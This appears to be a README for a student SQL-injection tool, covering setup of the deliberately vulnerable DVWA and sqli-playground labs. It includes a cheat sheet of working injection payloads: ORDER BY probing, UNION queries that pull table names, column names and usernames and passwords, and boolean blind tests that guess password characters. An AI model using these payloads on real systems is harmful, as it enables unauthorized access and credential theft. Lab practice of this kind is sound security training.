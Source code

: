 # Vaccine

## Usage

  ```
  usage: vaccine.py [-h] [-o O] [-x X] [-i] URL

  positional arguments:
    URL

  optional arguments:
    -h, --help  show this help message and exit
    -o O        Archive file, if not specified it will be stored in a default one.
    -x X        Type of request, if not specified GET will be used.
    -i          Specify talbe and column name using input.
  ```

- Start running docker containers
  ```
  make setup
  ```


### Damn Vulnerable Web Application [(github)](https://github.com/digininja/DVWA)

|  | data |
| - | - |
| url |  http://localhost:8080/vulnerabilities/sqli/index.php |
| method | GET |
| token | required |

1. Start docker container (`make setup`)
   ```
   docker run -it -d -p 8080:80 vulnerables/web-dvwa
   ```
2. Initialize database manually
   - http://localhost:8080/setup.php

3. Login manually
   - http://localhost:8080/login.php
   ```
   username: admin
   password: password
   ```

4. Get cookie
   - http://localhost:8080/index.php
   - get cookie value of `PHPSESSID`
     - inspect -> Application tab -> Storage -> Cookies

5. Set cookie to evn variable
   ```
   export TOKEN=YOUR_COOKIE
   ```

### sqli-playground [(github)](https://gitlab.cylab.be/cylab/play/sqlite-injection/)

|  | data |
| - | - |
| url | http://localhost:8000 | 
| method | POST |
| token | - |

1. Start docker container (`make setup`)
   ```
   docker run -d -p 8000:80 gitlab.cylab.be:8081/cylab/play/sqlite-injection
   ```

## Other SQL injection sites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

### ERROR
- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```

### UNION

#### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

#### SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' or 1=2--
```

```
' or (select count(*) from app.accounts where substr(password, 1, 1)='a') >0--
